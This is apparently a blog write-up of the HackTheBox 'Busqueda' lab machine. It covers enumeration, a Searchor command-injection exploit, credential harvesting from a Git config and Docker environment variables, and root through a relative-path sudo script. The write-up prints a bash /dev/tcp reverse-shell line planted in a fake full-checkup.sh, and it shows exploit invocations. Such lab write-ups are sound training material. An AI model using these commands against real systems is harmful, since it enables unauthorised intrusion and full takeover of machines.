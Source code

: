 
---
title: "Busqueda"
summary: "Busqueda is an Easy Difficulty Linux machine that involves exploiting a command injection vulnerability present in a `Python` module to gain user-level access to the machine. To escalate privileges to `root`, we discover credentials within a `Git` config file, allowing us to log into a local `Gitea` service."
categories: ["Post","Blog",]
tags: ["hackthebox machine"]
#externalUrl: ""
#showSummary: true
draft: false
date: 2025-01-06

---

| Machine Info         |              |
| -------------------- | ------------ |
| **Platform**         | HackTheBox   |
| **Operative System** | Linux        |
| **Difficulty**       | Easy         |
| **IP**               | 10.10.11.208 |
- - -
## Enumeration

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/recon]
└─$ nmap -p22,80 -sCV --min-rate 2000 -T5 -n -Pn 10.10.11.208 -oN ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)

80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that the web on port 80 redirects to **searcher.htb**. Let's add it to `/etc/hosts`.

As soon as we land on the page, we see the following:
![Busqueda1](img/busqueda/busqueda1.png)

A quick look shows the version of the App that is running behind this website, which is **Searchor 2.4.0**. If we look for vulnerabilities, we find the following [exploit](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)
- - -
## Exploitation
Let's run the exploit:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ./exploit.sh http://searcher.htb/ 10.10.14.10 4646
```

We put a `netcat` listener to receive the connection:
```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4646         
listening on [any] 4646 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.208] 40288
```

We succesfully enter the machine as user **svc** .
```bash
svc@busqueda:~$ cat user.txt
cat user.txt
75a17...8bd3e
```
- - -
## Privilege Escalation
Looking though the system files, we find a `.git` with credentials in the **app** folder.

```bash
svc@busqueda:/var/www/app/.git$ cat config

[core]
	repositoryformatversion = 0
	...
[remote "origin"]
	url = http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
	fetch = +refs/heads/*:refs/remotes/origin/*
[branch "main"]
	remote = origin
	merge = refs/heads/main
```

The user is **cody** and the password is **jh1usoih2bkjaspwe92** for an application in a subdomain called **gitea**. Let's add it to the `/etc/hosts` and take a look.

![Busqueda2](img/busqueda/busqueda2.png)

Inside here, we don't find anything interesing, appart that we can see a user called **administrator**. Although, we can try to SSH with the **svc** user and **cody's** password:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ ssh svc@10.10.11.208                   
svc@10.10.11.208's password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-69-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  ...

Last login: Tue Apr  4 17:02:09 2023 from 10.10.14.19
```

Let's check the sudo privileges that this user has:

```bash
svc@busqueda:/opt/scripts$ sudo -l

User svc may run the following commands on busqueda:
    (root) /usr/bin/python3 /opt/scripts/system-checkup.py *
```

This user has the right to execute that script inside **/opr/scripts**.

If we run it, we can see the following options:

```bash
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py *
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup
```

After some investigation, we discover the `docker-inspect` option can be use to retrieve information from the docker containers that are running in the machine, before seen with the  `docker-ps` option.


```json
svc@busqueda:/opt/scripts$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect '{{json .}}' gitea | jq

"Env": [
      "USER_UID=115",
      "USER_GID=121",
      "GITEA__database__DB_TYPE=mysql",
      "GITEA__database__HOST=db:3306",
      "GITEA__database__NAME=gitea",
      "GITEA__database__USER=gitea",
      "GITEA__database__PASSWD=yuiu1hoiu4i5ho1uh",
      "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
      "USER=git",
      "GITEA_CUSTOM=/data/gitea"
    ],
```

It looks like we find more credentials for the **gitea** application. Let's try to log in as **administrator**
with these credentials.

![Busqueda3](img/busqueda/busqueda3.png)

Nice! Now we can check the content of the **scripts** in the **/opt** folder.

Reading the script `system-checkup.py` script we notice that the `full-checkup.sh` script is referenced as if it was in the same folder:

```
...
elif action == 'full-checkup':
        try:
            arg_list = ['./full-checkup.sh']
            print(run_command(arg_list))
            print('[+] Done!')
        except:
            print('Something went wrong')
            exit(1)
...
```

We can abuse this by creating our own malicious script and reference it, as we are executing it with sudo privileges:

```bash
svc@busqueda:/tmp$ cat full-checkup.sh 

#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.12/4647 <&1'
```

>Keep in mind that you need to grant execution privileges to the script to run, as this was a mistake of mine that took me quite a lot of time to figure out.

Now, we set a `netcat` listener and execute the malicious script:

```bash
svc@busqueda:/tmp$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

In the `netcat` we receive the root shell:

```bash
┌──(s3n㉿kali)-[~/Desktop/Box/exploitation]
└─$ nc -nlvp 4647
listening on [any] 4647 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 47020
root@busqueda:/tmp# whoami
root
```

Nice! We rooted the machine.
```bash
root@busqueda:~# cat /root/root.txt
cat /root/root.txt
ccd03ae...0e87097
```